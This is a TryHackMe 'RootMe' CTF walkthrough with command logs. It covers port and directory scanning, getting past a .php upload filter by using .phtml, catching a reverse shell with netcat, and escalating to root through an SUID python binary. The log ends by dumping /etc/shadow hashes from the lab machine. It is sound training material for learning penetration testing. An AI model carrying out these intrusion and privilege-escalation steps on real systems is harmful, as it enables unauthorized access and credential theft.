









# TryHackMe - RootMe

<fieldset>

<legend>Room Information</legend>

- **Name:** [RootMe](https://tryhackme.com/room/rrootme)
- **Category:** boot2root
- **Type**: Challenge/CTF
- **Difficulty:** Easy
- **Tools**:
  - Nmap
  - Gobuster
- **Skills Learned**
  - Bypass upload filter
  - Abusing Python with SUID set.

</fieldset>

## Description

> A ctf for beginners, can you root me?

---

## Task 2: Reconnaissance 

### Nmap 



### TCP 80 - Website



Directory bruteforce



There is an upload feature at `/panel`. But it blocks `.php`




## Task 3: Getting a shell

Uploading with extension `.phtml` bypasses the upload filter.


Reverse shell



Flag found.




## Task 4: Privilege Escalation

Last modified binary



Abusing SUID on Python.



Flag



---

## Command logs

Nmap

```
→ root@kali «rootme» «10.9.30.115» 
$ nmap -p- --min-rate 1000 --reason -oA nmap/10-tcp-allport 10.10.215.165                      
Starting Nmap 7.80 ( https://nmap.org ) at 2021-05-29 23:35 EDT
Nmap scan report for 10.10.215.165
Host is up, received reset ttl 63 (0.26s latency).
Not shown: 65533 closed ports
Reason: 65533 resets
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Nmap done: 1 IP address (1 host up) scanned in 96.24 seconds
→ root@kali «rootme» «10.9.30.115» 
$ nmap -p22,80 --min-rate 1000 -sC -sV -oA nmap/10-tcp-allport-scripts 10.10.215.165
Starting Nmap 7.80 ( https://nmap.org ) at 2021-05-29 23:38 EDT
Nmap scan report for 10.10.215.165
Host is up (0.24s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.23 seconds
```

Gobuster

```
→ root@kali «rootme» «10.9.30.115» 
$ gobuster dir -u http://10.10.215.165/ -w /opt/SecLists/Discovery/Web-Content/raft-small-directories-lowercase.txt -z
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.215.165/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-small-directories-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/05/29 23:37:44 Starting gobuster in directory enumeration mode
===============================================================
/js                   (Status: 301) [Size: 311] [--> http://10.10.215.165/js/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.215.165/css/]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.215.165/uploads/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.215.165/panel/]  
/server-status        (Status: 403) [Size: 278]                                    
^C
[!] Keyboard interrupt detected, terminating.
                                                                                   
===============================================================
2021/05/29 23:43:21 Finished
===============================================================
```

Shell - www-data

```
→ root@kali «rootme» «10.9.30.115» 
$ nc -nvlp 443 
listening on [any] 443 ...
connect to [10.9.30.115] from (UNKNOWN) [10.10.215.165] 40316
bash: cannot set terminal process group (915): Inappropriate ioctl for device
bash: no job control in this shell
www-data@rootme:/var/www/html/uploads$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@rootme:/var/www/html/uploads$ ls -la
ls -la
total 112
drwxrwxrwx 2 www-data www-data   4096 May 30 03:43 .
drwxr-xr-x 6 www-data www-data   4096 Aug  4  2020 ..
-rw-r--r-- 1 www-data www-data 101181 May 30 03:42 iamf.php.jpg
-rw-r--r-- 1 www-data www-data     73 May 30 03:44 iamf.phtml
www-data@rootme:/var/www/html/uploads$ cd ../
ls
cd ../
www-data@rootme:/var/www/html$ ls
Website.zip
css
index.php
js
panel
uploads
www-data@rootme:/var/www/html$ which python
which python
/usr/bin/python
www-data@rootme:/var/www/html$ export TERM=xterm
export TERM=xterm
www-data@rootme:/var/www/html$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.4$ ^Z
[1]  + 2625 suspended  nc -nvlp 443
→ root@kali «rootme» «10.9.30.115» 
$ stty raw -echo; fg
[1]  + 2625 continued  nc -nvlp 443

bash-4.4$ ls -l
total 276
-rw-r--r-- 1 www-data www-data 259678 Aug  4  2020 Website.zip
drwxr-xr-x 2 www-data www-data   4096 Aug  4  2020 css
-rw-r--r-- 1 www-data www-data    645 Aug  4  2020 index.php
drwxr-xr-x 2 www-data www-data   4096 Jun  2  2020 js
drwxr-xr-x 2 www-data www-data   4096 Aug  4  2020 panel
drwxrwxrwx 2 www-data www-data   4096 May 30 03:43 uploads
bash-4.4$ ls -lt --time-style=full-iso | grep -v '000000000'
total 101032
-rwsr-sr-x 1 root   root     3665768 2020-08-04 17:47:25.376629497 +0000 python
-rwxr-xr-x 1 root   root      223304 2020-08-04 17:39:14.567473167 +0000 curl
lrwxrwxrwx 1 root   root          27 2020-08-04 16:24:41.623827618 +0000 phar.phar -> /etc/alternatives/phar.phar
lrwxrwxrwx 1 root   root          22 2020-08-04 16:24:41.611827688 +0000 phar -> /etc/alternatives/phar
lrwxrwxrwx 1 root   root          21 2020-08-04 16:24:41.591827806 +0000 php -> /etc/alternatives/php
bash-4.4$ find / -type f -perm 4755 2>/dev/null | grep -v 'snap'
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
bash-4.4$ which python
/usr/bin/python
bash-4.4$ python -c 'import os; os.execl("/bin/bash", "bash", "-p")'
bash-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-4.4# cat /etc/shadow
root:$6$5osB44J2$24WV3zAR1FTqEq3f2kSqrigUgyDmKucU8rwHvbOJWxIoWSlHbVHV1Ug1eOHqidieZWDU3Y5V3cimChun2JYNw1:18478:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
rootme:$6$jzeDDmrVeqMMEQqv$j8jwWy951YwWBJWzQNn.A45I.8H06/QOv4qocX.hNDdT42NytyavSHxlxoEh0ek2OS4NX27tuuZRTJuHPSWCp.:18478:0:99999:7:::
sshd:*:18478:0:99999:7:::
test:$6$vXOyvOWZ$UpIjnJq/KuKmKHezW/pEM.nrI6QuqhWWlv/fUmLvJI1YG7nju2vpP3vg1Q0SSf5FCk8058WD5Rc3XXPMRlqHb0:18478:0:99999:7:::
```

